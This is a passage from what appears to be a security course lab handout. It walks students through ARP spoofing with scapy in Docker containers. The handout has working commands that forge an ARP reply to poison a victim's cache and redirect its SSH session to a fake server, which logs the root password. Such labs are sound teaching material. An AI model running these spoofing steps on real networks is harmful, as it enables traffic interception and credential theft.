    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: tunl0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
3: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
347: eth0@if348: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:07 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.20.0.7/24 brd 172.20.0.255 scope global eth0 <1>
       valid_lft forever preferred_lft forever
    inet 172.20.0.5/32 scope global eth0 <2>
       valid_lft forever preferred_lft forever
----
<1> This is the IP we started with
<2> This is an additional IP that attacker believes it has

Now that the attacker system is configured, we'll start up `scapy` interactively:

.attacker
[source, text]
----
root@5195de3d330c:/# scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.

                     aSPY//YASa
             apyyyyCY//////////YCa       |
            sY//////YSpcs  scpCY//Pp     | Welcome to Scapy
 ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.5
 AYAsAYYYYYYYY///Ps              cY//S   |
         pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
         SPPPP///a          pP///AC//Y   |
              A//A            cyP////C   | Have fun!
              p///Ac            sC///a   |
              P////YCpc           A//A   | To craft a packet, you have to be a
       scccccp///pSP///p          p//Y   | packet, and learn how to swim in
      sY/////////y  caa           S//P   | the wires and in the waves.
       cayCyayP//Ya              pY/Ya   |        -- Jean-Claude Van Damme
        sY/PsY////YCc          aC//Yp    |
         sc  sccaCY//PCypaapyCP//YSs
                  spCPY//////YPSps
                       ccaacs
>>>
----

You'll notice that scapy's prompt is >>>, just like python because it _is_ python.
Since we're working in python, let's make our lives easier by defining a few simple variables:

.attacker
[source, text]
----
>>> server_ip = "172.20.0.5" <1>
>>> victim_ip = "172.20.0.6"
----
<1> IPv4 addresses are strings in scapy

Now let's see how scapy allows us to build packets.
We'll make an Ethernet frame, with an IP packet inside it, with an ICMP echo request in that, with the data being set to our name:

.attacker
[source, text]
----
>>> ping = Ether()/IP(dst=server_ip)/ICMP()/"Ryan Tolboom" <1>
>>> ping.show() <2>
###[ Ethernet ]###
  dst       = 02:42:ac:14:00:05
  src       = 02:42:ac:14:00:07
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     =
     frag      = 0
     ttl       = 64
     proto     = icmp
     chksum    = None
     src       = 172.20.0.7
     dst       = 172.20.0.5
     \options   \
###[ ICMP ]###
        type      = echo-request
        code      = 0
        chksum    = None
        id        = 0x0
        seq       = 0x0
        unused    = ''
###[ Raw ]###
           load      = 'Ryan Tolboom'

>>> result = srp1(ping) <3>
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
>>> result.show()
###[ Ethernet ]###
  dst       = 02:42:ac:14:00:07
  src       = 02:42:ac:14:00:05
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 40
     id        = 62086
     flags     =
     frag      = 0
     ttl       = 64
     proto     = icmp
     chksum    = 0x301a
     src       = 172.20.0.5
     dst       = 172.20.0.7
     \options   \
###[ ICMP ]###
        type      = echo-reply
        code      = 0
        chksum    = 0xea7a
        id        = 0x0
        seq       = 0x0
        unused    = ''
###[ Raw ]###
           load      = 'Ryan Tolboom'

>>> server_mac = result[0][0].src
>>> server_mac
'02:42:ac:14:00:05'
----
<1> Scapy uses the '/' operator to nest protocols.
    This is my name in an ICMP packet, in an IP packet, in an Ethernet frame.
    Be sure you use your own name!
<2> The `show()` command prints out packets in detail
<3> The `srp1()` function sends and receives _one_ packet at Layer 2

Notice how we use this to capture the server's MAC address and save it in the `server_mac` variable.

[IMPORTANT.deliverable]
====
Take a screenshot of your scapy session at this point showing that you completed an ICMP echo request/response with your name in it.
====

We can also determine MAC addresses at Layer 2 with an ARP "who-has" request.
Let's craft and send a broadcast ethernet frame with an ARP "who-has" request for the victims's IP address.
The result will tell use what the victim's MAC address is:

.attacker
[source, text]
----
>>> whohas = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=victim_ip)
>>> result = srp1(whohas)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> result.show()
###[ Ethernet ]###
  dst       = 02:42:ac:14:00:07
  src       = 02:42:ac:14:00:06 <1>
  type      = ARP
###[ ARP ]###
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = 6
     plen      = 4
     op        = is-at
     hwsrc     = 02:42:ac:14:00:06
     psrc      = 172.20.0.6
     hwdst     = 02:42:ac:14:00:07
     pdst      = 172.20.0.7

>>> victim_mac = result[0].src
----
<1> This is my MAC address of victim, but yours may be different!

This is how an ARP exchange is supposed to work.
We broadcast out asking what MAC we should use for a certain IP and we get a response _from the person who legitimately has that MAC and IP_.

We have everything we need to create an ARP packet telling the victim to send traffic to us when they are trying to access servers IP:

.attacker
[source, text]
----
>>> victim_ip, victim_mac, server_ip, server_mac
('172.20.0.6', '02:42:ac:14:00:06', '172.20.0.5', '02:42:ac:14:00:05')
----

Now let's make and view an evil ARP packet:

.attacker
[source, text]
----
>>> bad_arp = ARP(op=2, pdst=victim_ip, psrc=server_ip, hwdst=victim_mac)
>>> bad_arp
<ARP  op=is-at psrc=172.20.0.5 hwdst=02:42:ac:14:00:06 pdst=172.20.0.6 |>
----

This packet posits itself as coming from the server, it is aimed at the victim in both IP and MAC, but the MAC address that will be used to send it is ours (by default, we don't specify with `hwsrc`).
This means the victim will update their ARP cache such that frames destined for server go to attacker.
This effectively reroutes all layer 2 traffic that was going to the server from the victim.

Go ahead an send that ARP packet:

.attacker
[source, text]
----
>>> send(bad_arp)
.
Sent 1 packets.
----

Now go back to the victim terminal with the SSH connection to server and try typing something.
As soon as SSH has to send data, you will get a broken pipe error and the connection will drop.
Faced with such a problem, what do you think most users will do?
Probably try to reconnect, let's try that too.
Remember the password is "password".

.victim
[source, text]
----
You are now logged into 'server' (presumably from 'victim') via SSH for this assignment.
Leave this connection open while you experiment with scapy from 'attacker'.
bf9ebe42a108:~# client_loop: send disconnect: Broken pipe <1>
bash-5.0# ssh server
Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.
root@server's password:
#
----
<1> This happened when they tried to type something right after we sent the malicious ARP

Wait, that prompt looks a little different and where's the message about staying logged in?
It turns out the victim actually signed into our fake SSH server and their username and password were logged!
Take a look at the output from the terminal running `docker-compose up`, you'll see the credentials entered:

.docker-compose up terminal
[source, text]
----
attacker_1  | 2021/10/07 01:21:41 [172.20.0.6:60252] authentication for user "root" with password "password" accepted
----

[IMPORTANT.deliverable]
====

[qanda]
How would you create an ARP packet in scapy to reverse the change you made previously and fix the route?::
    {empty}
Would using keys instead of passwords help prevent this kind of attack? Why or why not?::
    {empty}
How would https://www.ssh.com/academy/ssh/host-key[managing host keys correctly] prevent this kind of attack?::
    {empty}

====

To stop the running containers, you can type Ctrl-C in the terminal running `docker-compose up`, exit out of the victim, and exit out of the attacker.

== Review Questions

[qanda]
What can MAC address spoofing allow an attacker to do? What steps can be taken to mitigate this risk?::
    {empty}
What is the difference between horizontal and vertical privilege escalation? Give an example of each.::
    {empty}
What is XSS and how can it be used in an attack?::
    {empty}
